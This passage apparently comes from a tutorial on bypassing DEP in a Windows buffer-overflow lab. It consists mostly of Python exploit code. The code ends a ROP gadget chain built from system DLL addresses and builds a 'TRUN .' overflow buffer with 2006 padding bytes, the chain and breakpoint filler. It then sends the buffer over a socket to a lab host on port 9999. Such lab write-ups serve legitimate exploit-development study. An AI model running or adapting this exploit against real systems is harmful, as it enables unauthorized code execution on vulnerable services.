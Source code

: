 ```python
	0x76a3b884,  # XCHG EAX,EDX # RETN [RPCRT4.dll] ** REBASED ** ASLR
	#[---INFO:gadgets_to_set_ecx:---]
	0x75ad8b52,  # POP ECX # RETN [msvcrt.dll] ** REBASED ** ASLR
	0x76add416,  # &Writable location [RPCRT4.dll] ** REBASED ** ASLR
	#[---INFO:gadgets_to_set_edi:---]
	0x77423214,  # POP EDI # RETN [ntdll.dll] ** REBASED ** ASLR
	0x766ba91a,  # RETN (ROP NOP) [KERNEL32.DLL] ** REBASED ** ASLR
	#[---INFO:gadgets_to_set_eax:---]
	0x76aa79e6,  # POP EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR
	0x90909090,  # nop
	#[---INFO:pushad:---]
	0x74250446,  # PUSHAD # RETN [mswsock.dll] ** REBASED ** ASLR
	]
	return b''.join(struct.pack('<I', _) for _ in rop_gadgets)

def main():

    rop_chain = create_rop_chain()

    buffer = b"TRUN ."
    buffer += b"A"*2006
    buffer += rop_chain
    buffer += b"\xCC"*(3500-2006-(len(rop_chain)))

    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("192.168.234.133", 9999))
        s.recv(1024)
        s.send(buffer)
        s.close()

    except Exception as e:
        print(e)

main()
```

![Untitled](/assets/images/Buffer-Overflow-byp-dep/Untitled%209.png)

